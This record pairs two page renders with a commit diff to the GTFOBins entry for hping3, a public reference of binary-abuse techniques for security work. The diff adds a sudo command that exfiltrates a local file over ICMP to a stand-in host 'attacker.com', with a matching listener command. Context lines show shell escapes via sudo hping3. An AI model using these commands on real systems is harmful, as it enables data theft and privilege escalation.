

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/hping3.md, in a window 1280 px wide. Shown: the whole page at 88% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1110 px from its top, so only the background shows below that.

Commit message:
Fix hping3 file-upload

````diff
--- a/_gtfobins/hping3.md
+++ b/_gtfobins/hping3.md
@@ -8,13 +8,18 @@ functions:
     - code: |
         ./hping3
         /bin/sh -p
-  file-read:
-    - description: It is possible to send specific file contents if hping3 has sufficient permission.
-    - code: |
-        sudo hping3 --icmp 127.0.0.1 --listen --signature --safe
-        sudo hping3 --icmp 127.0.0.1 --d 100 --c 2 --sign signature --file ./file.txt
   sudo:
     - code: |
         sudo hping3
         /bin/sh
+    - description: |
+        The file is continuously sent, adjust the `--count` parameter or kill the sender when done. Receive on the attacker box with:
+
+        ```
+        sudo hping3 --icmp --listen xxx --dump
+        ```
+      code: |
+        RHOST=attacker.com
+        LFILE=file_to_read
+        sudo hping3 "$RHOST" --icmp --data 500 --sign xxx --file "$LFILE"
 ---
````
